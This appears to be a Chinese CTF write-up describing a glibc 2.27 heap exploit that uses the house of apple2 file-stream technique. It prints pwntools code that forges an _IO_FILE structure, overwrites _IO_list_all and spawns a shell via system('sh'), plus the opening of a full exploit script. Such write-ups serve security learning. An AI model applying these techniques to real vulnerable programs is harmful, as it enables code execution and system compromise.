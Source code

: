 **需要注意一点的是（这点我在上面提及的自己的文章中写过），这个地方扩展top chunk，那么进入unsorted bin或者tcache bin的top chunk大小会小0x20，所以这里是p64(0x81)后面是add(0x58)**

libc2.27的house of apple2
------------------------

这里分析checksanbox，其实有了任意地址申请最开始是想打malloc\_hook然后打one\_gadget，但是发现要用realloc调整堆栈，但这个checksanbox正好就卡住了realloc\_hook这里，所以就不能打了

这里直接任意地址申请\_IO\_list\_all,然后覆盖为一个堆地址，最后用题目中的exit触发IO  
但是实际操作的过程中遇到一个问题，用自己的板子，call \[rax+0x68\]时rax是空值

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-ac5a8d3d40a263b6b63af4760d3653dc66fdbda1.png)

**通过dbg发现libc2.27的wide\_data的vtable偏移竟然和高版本(0xe0)不一样，而是0x130，稍作调整即可**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-3662f59618f8e720431ff93bec2c737c5bd156b6.png)

```python
ioaddr=heap_addr+0x260
payload = p64(0)*2 + p64(1) + p64(2) #这样设置同时满足fsop
payload= payload.ljust(0x78,b'\x00')+p64(heap_addr)#lock
payload = payload.ljust(0x90, b'\x00') + p64(ioaddr + 0xe0) #_wide_data=fake_IO_addr + 0xe0
payload = payload.ljust(0xc8, b'\x00') + p64(libc.sym['_IO_wfile_jumps']) #vtable=_IO_wfile_jumps
payload = payload.ljust(0xd0 + 0x130, b'\x00')+p64(ioaddr+0xe0+0x138) #_wide_data->vtable
#*(B+0X68)=C=magic_gadget
payload = payload.ljust(0xd0 + 0x138 + 0x68, b'\x00') + p64(libc.sym['system'])
payload=b'  sh;\x00\x00\x00'+p64(0)+payload
edit(0,len(payload),payload)

# dbg()
edit(8, 8, p64(heap_addr+0x260))

# dbg()
choice(0)
```

最后打通

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-10e060e1a44382b00ccc577e57e08e05f4aa9ce0.png)

完整exp
-----

```python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
from ctypes import *
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/pwn")
# p=gdb.debug("/home/zp9080/PWN/pwn",'b *0x4013D2')
# p=remote('8.147.134.27',36901)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc 

#b *$rebase(0x14F5)
def dbg():
    gdb.attach(p,'b *$rebase(0x1B56)')
    pause()
```